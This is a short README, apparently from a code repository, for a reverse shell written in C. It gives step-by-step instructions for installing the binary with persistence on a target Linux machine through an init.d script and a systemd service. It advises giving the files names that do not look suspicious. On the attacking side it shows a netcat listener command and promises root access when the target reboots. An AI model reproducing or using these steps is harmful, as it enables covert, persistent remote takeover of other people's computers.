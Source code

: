 # reverse-shell
## DO NOT RUN THIS ON YOUR OWN COMPUTER UNLESS YOU WANT TO BE PWNED
A reverse shell written in c

## Installation and activation
* First, download this in the / directory, compile a binary, then mv foo.exe /
* Second, create a .sh file in /etc/init.d/ and name it something not suspicious. Use foo.sh as example
* Then, in /etc/systemd/system create a .service file (example included). Use foo.service as example
* $systemctl enable foo.service

## On the attacking box
* $nc -nvlp 4444
* When target box reboots or powers on, it will establish connection
* Wait for connection to pop
* Have root

